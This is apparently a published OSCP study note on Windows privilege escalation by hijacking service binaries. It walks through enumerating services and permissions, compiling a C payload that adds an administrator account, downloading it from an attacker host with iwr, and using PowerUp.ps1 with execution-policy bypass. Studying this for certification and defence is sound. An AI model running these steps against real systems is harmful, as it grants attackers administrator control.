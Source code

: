 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/8-windows-privilege-escalation/5-service-hijacking/"}
---
```


- A Windows Service is a long-running background executable or application managed by the Service Control Manager.
- They are similar to daemons on Unix
- Windows Services can be managed by the Services snap-in, PowerShell, or sc.exe.
- Services are run by LocalSystem (NT AUTHORITY, SYSTEM, BUILTIN), Network Service, and Local Service user accounts.
- Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.

--------
### Writable Files + Directories

Writable files from root directory:
```
cmd /c 'dir C:\ /a-r-d /s /b'
```

Writable directories from root directory:
```
cmd /c 'dir C:\ /ad-r /s /b'
```

-------------
### Manual Service Binary Hijacking
- Each Windows service has an associated binary file.
- They are executed when the service is started or transitioned into a running state.
- An unprivileged user can tamper with misconfigured services being run by higher authority to privesc.
- Look for services with binaries outside of the System32 folder, since they are probably installed and configured by the user manually.

1. Enumerate running processes to identify any to abuse:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Alt. Get-Service ... Get-WmiObject ... services.msc
```
2. Enumerate permissions for the identified services:
```powershell
icacls "C:\xampp\apache\bin\httpd.exe"

Alt. Get-ACL

Permissions:
F: Full access
M: Modify access
RX: Read and execute access
R: Read-only access
W: Write-only access
```
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user zombie password123! /add");
  i = system ("net localgroup administrators zombie /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Try to restart the service manually (if permissioned):
```powershell
net stop <servicename>
net start <servicename>

#Or run:
Restart-Service <servicename>

#Service name is not the binary file
```
7. If not possible check if it starts again on reboot:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<servicename>'}
```
8. Check if is privileged to restart system (the state should not matter):
```powershell
whoami /priv
```
9. Issue a system reboot using:
```powershell
shutdown /r /t 0
```
10. Remember to repair the binary after escalation!

------------
### Automatic Service Hijacking with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```powershell
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check modifiable services identified:
```powershell
Get-ModifiableServiceFile
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Install-ServiceBinary -Name 'mysql'
```
7. Win!
